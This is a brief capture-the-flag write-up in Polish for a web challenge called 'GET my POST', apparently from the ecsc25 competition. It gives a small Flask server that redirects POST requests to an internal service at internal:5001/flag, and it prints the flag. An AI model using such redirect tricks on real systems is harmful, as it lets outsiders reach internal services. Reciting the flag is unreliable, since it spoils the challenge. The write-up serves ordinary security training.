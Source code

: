# GET my POST - web

### Solution

URL który przekierowywuje na internal serwis (`internal:5001/flag`)

```python=
from flask import Flask, make_response, redirect

app = Flask(__name__)

@app.route("/", methods=["POST"])
def main():
  return redirect("http://internal:5001/flag")

if __name__ == "__main__":
  app.run(port=5005)
```

Flaga: `ecsc25{indirect_route}`
